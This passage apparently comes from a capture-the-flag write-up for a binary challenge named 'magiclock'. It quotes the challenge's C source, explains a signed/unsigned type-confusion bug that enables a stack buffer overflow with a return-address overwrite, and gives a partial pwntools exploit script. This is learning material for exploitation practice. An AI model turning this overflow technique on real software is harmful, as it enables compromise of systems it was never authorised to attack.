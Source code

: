 This part of the code allows us to set `userInput` to a value between **1** and **65535**.

_p.s. 65535 corresponds to -1 in a signed short variable since signed short range is -32768 to 32767_

```c

if (option == 2)
{
    strcpy((Spell+4), "Telekenisis");
    CurrentSpellType = 2;

    // Set dmg
    printf("How much damage does the telekenisis do? (1-100)");
    scanf("%3s", buffer);
    userinput = atoi(buffer);

    if (userinput >=1 && userinput <=100)
    {
        *(short*)(Spell) = (short)userinput;
    }
    else
    {
        printf(errmsg);
        return 1;
    }
```

This part of the code allows us to change the `CurrentSpellType` to Telekenisis whilst keeping the values we set for our `Fireball`.

## Exploit

Essentially, the vulnerability is that -- we are able to, via type/spell confusion, treat an `unsigned short` as a `signed short` and thus have a negative damage, allowing us to have a `recv_len > 30` and overflow our buffer.

Upon overflowing our buffer, we can set our return address to the middle of the flag function right after the checks, so we don't have to deal with the pesky argument checks.

Do note that we have to provide a **valid** saved RBP value _(the 8 bytes right before return address)_ so our program don't crash when trying to move variables in and out of the stack, relative to our RBP.

```python
from pwn import *

p = process("./magiclock")

MPROMPT = b"HELP!\n"
CPROMPT = b"2)Telekenisis\n"

p.sendlineafter(MPROMPT, b"3")              # Configure our spell
p.sendlineafter(CPROMPT, b"1")              # as a Fireball
p.sendlineafter(b"(1-65535)", b"64536")     # with a size of 64536, which is also -1000 in signed short.
p.sendlineafter(b"(1-100)", b"100")

p.sendlineafter(MPROMPT, b"3")              # Configure our spell
p.sendlineafter(CPROMPT, b"2")              # as a Telekinesis
p.sendlineafter(b"(1-100)", b"abc")         # Provide an invalid input so we do not tamper with the values set as a Fireball

p.sendlineafter(MPROMPT, b"2")              # Fire our spell

payload = b"A"*32                           # Overflow our return address
payload += p64(0x405100)                    # Provide a valid RBP so our program doesn't crash
```